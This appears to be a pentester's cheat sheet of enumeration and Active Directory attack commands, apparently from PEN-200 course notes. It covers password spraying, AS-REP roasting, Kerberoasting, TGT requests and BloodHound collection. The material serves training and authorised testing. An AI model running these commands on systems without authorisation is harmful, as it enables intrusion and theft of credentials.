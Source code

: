 ![alt text](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/7c49cd2d7e2afd9639c73a1de9b7765a-antivirus_evasion_06.png)

![alt text](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/61057955413c0439bd528b59c6a814a1-antivirus_evasion_07.png)

![alt text](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/f1c4ae36fc63adf510fdc4712a928fc8-antivirus_evasion_08.png)

![alt text](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/f116295bbacceb3e7ba812feed277d09-antivirus_evasion_09.png)

## Host Enumeration – Linux
- `uname -a` – Kernel and architecture info.
- `hostnamectl` – Hostname, OS, and hardware summary.
- `ip a; ip route` – Interface and routing insight.
- `ss -tulnp` – Listening sockets and owning processes.
- `sudo -l` – Discover permitted sudo commands.
- `find / -perm -4000 -type f 2>/dev/null` – SUID binary sweep.
- `cat /etc/passwd | cut -d: -f1` – List local users.
- `linpeas.sh` – Automated privilege escalation checks (`./linpeas.sh`).
- `./pspy64 -pf -i 5` – Watch scheduled tasks and processes without root.

## Host Enumeration – Windows
- `systeminfo` – OS version, roles, hotfix baseline.
- `ipconfig /all` – Network layout.
- `whoami /all` – Identity, groups, and privileges.
- `netstat -ano` – Active network connections and PIDs.
- `tasklist /svc` – Running services and owning processes.
- `wmic qfe get Caption,Description,HotFixID,InstalledOn` – Patch inventory.
- `winPEAS.exe /quiet` – Automated Windows privilege escalation checks.

## Credential & Service Abuse (nxc + quick wins)
- `nxc smb <target>/24 -u <user> -p <pass> --shares` – Enumerate SMB shares with credential reuse.
- `nxc smb <target> -u users.txt -p passwords.txt --no-brute` – Password spray with lockout-safe timing.
- `nxc winrm <target> -u <user> -p <pass> -x "whoami"` – Test WinRM command execution.
- `nxc rdp <target> -u <user> -p <pass>` – Validate RDP credential success and NLA status.
- `nxc ssh <target> -u <user> -p <pass>` – SSH credential testing.

## Kerberos & AD Tooling
- `nltest /dsgetdc:<domain>` – Identify the domain controller.
- `nslookup -type=SRV _ldap._tcp.<domain>` – Locate LDAP SRV records.
- `kerbrute userenum --dc <dc_ip> -d <domain> <userlist>` – Spray for valid domain users.
- `GetADUsers.py <domain>/<user>:<pass> -all` – Dump AD users via LDAP (Impacket).
- `GetNPUsers.py <domain>/<user>:<pass> -request` – AS-REP roasting collection.
- `GetUserSPNs.py <domain>/<user>:<pass> -request` – Kerberoasting for service accounts.
- `Rubeus.exe asktgt /user:<user> /password:<pass>` – Request TGTs (aka "Rubese"); swap `/rc4` or `/ptt` for alternate modes.
- `certipy find -u <user>@<domain> -p <pass> -dc-ip <dc_ip>` – Discover AD CS misconfigurations.
- `bloodhound-python -u <user> -p <pass> -ns <dc_ip> -d <domain> -c All` – Collect BloodHound ingestors.
- `ldapdomaindump -u <user> -p <pass> ldap://<dc_ip>` – Export AD objects for offline review.
